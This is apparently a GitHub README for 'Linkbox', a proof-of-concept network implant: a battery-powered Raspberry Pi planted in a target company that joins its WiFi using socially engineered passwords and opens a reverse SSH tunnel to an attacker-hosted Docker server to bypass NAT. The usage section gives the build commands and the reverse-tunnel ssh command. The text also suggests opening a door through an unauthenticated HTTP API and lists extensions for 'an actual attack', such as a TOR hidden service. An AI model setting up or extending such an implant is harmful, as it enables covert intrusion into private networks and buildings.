 # Linkbox
#### Preamble
Linkbox is a small security proof-of-concept project.
When attempting to compromise any system, one of the most crucial actions is gaining access to its network or a network associated with it. Once an attacker has gained access to a network, he is free to perform attacks on all systems within the network, until he is either detected by a network administrator and removed from the network forcefully or reached his goal.

#### Company Networks
Generally, most WiFi networks will be protected by some means, using the WEP, WPA or WPA2 protocols. While there are tools for attacking networks protected by these protocols (or devices within them), this is outside of the scope of this demonstration. However, with a bit of social engineering, WiFi network passwords are one of the easiest ressources to accquire in this whole process. With this in mind, we will design linkbox to connect to the network with the credentials it has been given.

#### Network accessibility
A lot of company networks are accessible via VPN for allowing employees to work from remote locations, log in during service routines, etc. For networks that are easily accessible from the outside, linkbox does not create a significant benefit, if the attacker has already accquired the credentials of a user account. However, if no user credentials are known, linkbox can still be placed inside the network and used as an entrypoint for scoping out other attack vectors.

---

Linkbox consists of a hardware part, which is a raspberry pi strapped to a battery pack and a server part, which is an Alpine Linux docker container that can run anywhere. 

---




## Workflow
On boot, the raspberry pi will connect to the WiFi network it has been configured to using [wpa_supplicant](https://raspberrypihq.com/how-to-connect-your-raspberry-pi-to-wifi/). It will then go on to try and open a reverse ssh tunnel to the server, binding its local port `22` to the server's port `10022 `, using the `private_key` file containing the private key to the public key stored on the server.  

Once the reverse ssh connection is established, a user can simply use the `linkbox` binary inside the server container to connect to the local port `10022` via ssh, using the `private_key` file containing the private key to the public key stored on the raspberry pi.

In short:
1. Linkbox server container is started on public host
2. Linkbox client boots up
3. Linkbox client connects to WiFi network
4. Linkbox client establishes reverse ssh connection
5. User on the Linkbox server container uses reverse ssh tunnel
6. :tada:

The user now has an open SSH tunnel to a device in the target network, bypassing its NAT. (Of course firewalls with deep packet inspection could still block this, but that's another story).

Obviously, the user is free to do whatever he likes. For an example scenario, a german manufacturer of door communication systems exposes an HTTP API that allows third party devices to open the door without further authentication. Any device in the local network can use this endpoint. So we are just on `curl` command away from opening the front door.




## Project structure
The following files will be used on client and server respectively.
```
├── client/
│   ├── authorized_keys -> /home/pi/.ssh/authorized_keys
│   ├── private_key -> /home/pi/private_key
│ 
├── server/
│   ├── authorized_keys -> /home/linkbox/.ssh/authorized_keys
│   ├── private_key -> /home/linkbox/private_key
│   ├── entrypoint.sh -> /usr/local/bin/entrypoint.sh
│   ├── linkbox -> /usr/local/bin/linkbox
```




## Usage
#### Linkbox Server
```bash
# Navigate to the server directory
cd ./server

# Building the server container
docker build --no-cache --tag linkbox-server .

# Running the server container
docker run --rm -p 10666:22 -it linkbox-server /bin/bash
```


#### Linkbox Client
```bash
TODO: Add script and complete this section

# We don't care about the server's fingerprint since it is reset on container build
rm /root/.ssh/known_hosts

# The private key must only be accessible to us, otherwise ssh will complain
chmod 700 ./private_key

# Connect to the server via ssh and create reverse ssh runnel
ssh -o StrictHostKeyChecking=no -p 10666 -l linkbox -i ./private_key -f -N -T -R 10022:localhost:22 <target-ip>
```




## Possible improvements
Linkbox is a simple proof-of-concept, it is not intended to actually be used in any malicious scenario, thus, we omitted a lot of key features here. For an actual attack, linkbox could be extended to:
* Persist keypairs across container restarts to ensure safe connection to linkbox server
* Persist keypairs across container restarts to ensure safe connection to linkbox client
* Use TOR for hosting the server container as a hidden service to hide our identity
* Use TOR for routing requests from linkbox so the traffic is obfuscated
* Add retries and timeouts to all operations
* Add error reporting and local logging in case of failure
